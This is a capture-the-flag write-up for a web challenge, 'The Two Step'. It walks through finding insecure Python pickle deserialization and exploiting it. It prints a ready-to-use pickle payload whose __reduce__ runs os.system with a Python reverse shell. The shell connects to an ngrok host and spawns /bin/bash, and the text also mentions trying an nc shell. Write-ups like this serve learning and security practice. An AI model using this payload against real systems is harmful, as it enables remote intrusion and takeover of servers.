

# The Two Step CTF Challenge Writeup

## Challenge Information
- **Name**: The Two Step
- **Points**: 1
- **Category**: Web
- **Objective**: Exploit insecure deserialization to gain shell access and retrieve the flag.

## Solution
To solve the "The Two Step" challenge, follow these steps:

1. **Initial Analysis**:
   - Upon visiting the website, the initial impression might be a redirect vulnerability, but further inspection shows it's not the case.


      

2. **Identifying Insecure Deserialization**:
   - Inspect the source code and identify that it uses Python's pickle module for deserialization.
   - Note that deserialization is insecurely handled, allowing for arbitrary code execution if exploited correctly.


      

3. **Crafting the Payload**:
   - Attempt to use standard pickle payloads. Initial attempts may only return numbers or unintended outputs.


      

   - Instead, craft a payload designed to spawn a shell. Initially tried a simple `nc` shell, but it didnt work, maybe `nc` is blocked

4. **Using an Alternative Shell**:
   - Since `nc` may not be executable, use a Python-based reverse shell to establish a connection.
   - Example Python reverse shell payload:
     ```python
      import pickle, os, base64
      class P(object):
         def __reduce__(self):
            return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.ap.ngrok.io",13278));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))
      print(base64.b64encode(pickle.dumps(P())))
     ```

5. **Gaining Shell Access**:
   - Send the crafted payload to the server to get a reverse shell.
   - Once you have shell access, escalate privileges if necessary. Since you’re already root, you should be able to retrieve the flag.

      
      

6. **Flag Retrieval**:
   - With root access, locate and read the flag file.


      

